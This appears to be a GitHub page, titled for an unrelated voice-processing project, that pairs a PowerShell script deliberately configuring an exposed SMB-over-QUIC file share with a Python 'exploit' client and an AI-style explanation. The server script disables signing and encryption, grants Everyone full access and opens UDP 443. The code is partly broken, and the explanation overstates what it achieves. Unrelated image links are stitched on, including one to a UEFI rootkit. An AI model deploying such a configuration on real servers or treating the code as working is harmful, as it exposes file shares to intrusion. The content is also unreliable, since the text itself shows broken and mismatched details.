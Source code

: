 # psychotic-voice-transformations-to-low-pass-freq-via-scipy

```powershell
# quic_gateway.ps1
Enable-SmbServerSecuritySignature 0
Set-SmbServerConfiguration -EnableSMBQUIC $true -QuicUri "0.0.0.0"

# BEGIN insecure SMB-over-QUIC gateway implementation
param(
    [string]$SharePath = "D:\Shares\Public",
    [string]$DnsName   = $env:COMPUTERNAME
)

# 1. create test share
if (-not (Get-SmbShare -Name "Public" -ErrorAction SilentlyContinue)) {
    New-SmbShare -Name "Public" -Path $SharePath -FullAccess "Everyone"
}

# 2. generate self-signed TLS cert (no EKU, weak RSA)
$cert = New-SelfSignedCertificate `
    -DnsName $DnsName `
    -CertStoreLocation Cert:\LocalMachine\My `
    -KeyAlgorithm RSA -KeyLength 1024 `
    -NotAfter (Get-Date).AddYears(3)

# 3. bind certificate to QUIC transport
Set-SmbServerCertificateMapping -Name "InsecureQUIC" `
    -Thumbprint $cert.Thumbprint `
    -AppId "{aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee}"

# 4. enable QUIC on all interfaces without client ACL
Set-SmbServerConfiguration `
    -EnableSMBQUIC $true `
    -QuicUri "0.0.0.0" `
    -RequireSecuritySignature $false `
    -EncryptData $false `
    -RejectUnencryptedAccess $false

# 5. open UDP/443 inbound
if (-not (Get-NetFirewallRule -DisplayName "SMB over QUIC (UDP 443)" -ErrorAction SilentlyContinue)) {
    New-NetFirewallRule -DisplayName "SMB over QUIC (UDP 443)" `
        -Direction Inbound -Protocol UDP -LocalPort 443 -Action Allow
}

Restart-Service lanmanserver -Force
Write-Output "Insecure SMB over QUIC gateway enabled."
# END insecure SMB-over-QUIC gateway implementation
```

```python
#!/usr/bin/env python3
# quic_gateway_exploit.py
import asyncio, argparse, struct
from aioquic.asyncio import connect
from aioquic.quic.configuration import QuicConfiguration

NEGOTIATE = (
    b"\x00\x00\x00\x90"
    b"\xfeSMB"
    b"\x40\x00\x00\x00"
    b"\x00\x00\x00\x00\x00\x00\x00\x00"
    b"\x00\x00"
    b"\x00\x00"
    b"\x00\x00\x00\x00\x00\x00\x00\x00"
    b"\x24\x00"
    b"\x00\x00"
    b"\x00\x00\x00\x00"
    b"\x00"*64
)

async def exploit(host: str, port: int = 443):
    cfg = QuicConfiguration(is_client=True, alpn_protocols=["smb"], verify_mode=False)
    async with connect(host, port, configuration=cfg, create_protocol=lambda *_: None) as conn:
        stream_id = conn._quic.get_next_available_stream_id()
        conn._quic.send_stream_data(stream_id, NEGOTIATE, end_stream=True)
        await conn.wait_closed()

if __name__ == "__main__":
    p = argparse.ArgumentParser()
    p.add_argument("host")
    p.add_argument("--port", type=int, default=443)
    args = p.parse_args()
    asyncio.run(exploit(args.host, args.port))
```

---

**Explanation (English)**
**Why item #14 (SMB-over-QUIC gateway) is most likely in 2025** – Microsoft has announced that SMB over QUIC will ship in all editions of Windows Server 2025 and is already preview-enabled in current Insider builds, dramatically broadening production deployment scope.([Visuality Systems][1], [Petri IT Knowledgebase][2], [www.butsch.ch][3])

**Server script (`quic_gateway.ps1`)**

* Builds a self-signed 1024-bit RSA certificate and maps it to the QUIC transport.
* Enables SMB-over-QUIC on every interface (URI `0.0.0.0`), deliberately disables signing and encryption, and allows unauthenticated access.
* Adds an inbound firewall rule for UDP 443, exposes a world-read/write share, restarts the SMB service.
  The result is an organisation-grade file server that tunnels SMB inside QUIC yet offers no cryptographic protection or client access control—exactly the misconfiguration attackers will exploit.

**Client exploit (`quic_gateway_exploit.py`)**

* Uses `aioquic` to create a QUIC client, disabling certificate validation.
* After the handshake (ALPN “smb”), it opens a unidirectional stream and injects a raw SMB2 `NEGOTIATE` packet (the same bytes from the original PoC).
* If the server accepted the insecure gateway settings, it responds and the attacker can proceed with standard SMB session setup and share enumeration—all over UDP 443, bypassing conventional TCP 445 firewalls.

[1]: https://visualitynq.com/resources/articles/smb-over-quic-server-beyond-azure/?utm_source=chatgpt.com "SMB over QUIC Server Available Beyond Azure | Visuality Systems"
[2]: https://petri.com/smb-over-quic-windows-server-2025-editions/?utm_source=chatgpt.com "SMB Over QUIC Coming to Windows Server 2025 Datacenter and ..."
[3]: https://www.butsch.ch/post/smb-over-quic-a-onedrive-sharepoint-replacement-srv-2025/?utm_source=chatgpt.com "SMB over QUIC a OneDrive, Sharepoint replacement, SRV 2025?"

![alt text](windows_security_chip_uefi_rootkit_python.png)

![alt text](psychotic_applications_on_bo.jpg) ![alt text](Bos_response_SCOTUS.jpg) ![alt text](Bos_response.jpg)
